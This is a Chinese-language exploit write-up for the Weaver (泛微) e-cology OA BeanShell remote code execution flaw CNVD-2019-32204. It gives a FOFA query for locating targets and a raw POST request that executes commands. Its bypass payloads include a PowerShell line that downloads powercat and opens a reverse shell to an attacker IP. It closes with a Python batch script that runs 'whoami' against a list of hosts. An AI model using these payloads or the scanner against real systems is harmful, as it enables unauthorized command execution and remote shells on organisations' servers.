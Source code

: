 # 泛微OA Bsh 远程代码执行漏洞 CNVD-2019-32204

## 漏洞描述

2019年9月17日泛微OA官方更新了一个远程代码执行漏洞补丁, 泛微e-cology OA系统的Java Beanshell接口可被未授权访问, 攻击者调用该Beanshell接口, 可构造特定的HTTP请求绕过泛微本身一些安全限制从而达成远程命令执行, 漏洞等级严重.

## FOFA

> [!NOTE]
>
> app=“泛微-协同办公OA”

## 影响版本

> [!NOTE]
>
> E-cology 7.0
> E-cology 8.0
> E-cology 8.1
> E-cology 9.0

## 漏洞复现

直接在网站根目录后加入组件访问路径 /weaver/bsh.servlet.BshServlet/，如下图在victim上执行了命令“whoami”

![](image/fanwei-6.png)

请求包为

```shell
POST /weaver/bsh.servlet.BshServlet HTTP/1.1
Host: xxxxxxxx:8088
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 98
Content-Type: application/x-www-form-urlencoded

bsh.script=ex\u0065c("cmd /c dir");&bsh.servlet.captureOutErr=true&bsh.servlet.output=raw
```

#### 关于绕过

```shell
eval%00("ex"%2b"ec(\"whoami\")");
ex\u0065c("cmd /c dir");
IEX(New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');powercat -c ip -p 6666 -e cmd
```

### 漏洞POC

https://github.com/myzing00/Vulnerability-analysis/tree/master/0917/weaver-oa/CNVD-2019-32204

```python
#/usr/bin/python
#coding:utf-8
#Author:Ja0k
#For Weaver-Ecology-OA_RCE

import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

import requests,sys

headers = {
    'Content-Type': 'text/xml; charset=utf-8',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:52.0) Gecko/20100101 Firefox/52.0',
    'Cache-Control': 'max-age=0',
    'Content-Type': 'application/x-www-form-urlencoded',
    'Upgrade-Insecure-Requests': '1',
    'Content-Length': '578'
}

proxies= {'http':'http://127.0.0.1:8080'}
            
def Poc_check(target):

    Url_Payload1="/bsh.servlet.BshServlet"
    Url_Payload2="/weaver/bsh.servlet.BshServlet"
    Url_Payload3="/weaveroa/bsh.servlet.BshServlet"
    Url_Payload4="/oa/bsh.servlet.BshServlet"
    
    Data_Payload1="""bsh.script=exec("whoami");&bsh.servlet.output=raw"""
    Data_Payload2= """bsh.script=\u0065\u0078\u0065\u0063("whoami");&bsh.servlet.captureOutErr=true&bsh.servlet.output=raw"""
    Data_Payload3= """bsh.script=eval%00("ex"%2b"ec(bsh.httpServletRequest.getParameter(\\"command\\"))");&bsh.servlet.captureOutErr=true&bsh.servlet.output=raw&command=whoami"""
    for Url_Payload in (Url_Payload1,Url_Payload2,Url_Payload3,Url_Payload4):
        url= target + Url_Payload
        for Data_payload in (Data_Payload1,Data_Payload2,Data_Payload3): 
            try:
                http_response = requests.post(url,data=Data_payload,headers=headers,verify=False)
                #print http_response.status_code
                if http_response.status_code == 200:
                    if ";</script>" not in (http_response.content):
                        if "Login.jsp" not in (http_response.content):
                            if "Error" not in (http_response.content):
                                print "{0} is a E-cologyOA_RCE Vulnerability".format(url)
                                print "Server Current Username：{0}".format(http_response.content)
                elif http_response.status_code == 500:
                    print "{0}500 maybe is Weaver-EcologyOA，Please confirm by yourself ".format(url)
                else:
                    pass              
            except Exception,Error:
                pass    
    
if __name__ == '__main__':
    for line in open(sys.argv[1]).readlines():
        target=line.strip()
        Poc_check(target)
```

```
#1.install python Dependencies Library 
pip install requests

#2.批量脚本 执行 
python Weaver-Ecology-OA_RCE-exp.py 


url.txt文件中 是url地址 需要带http协议

有任何问题请issue
```


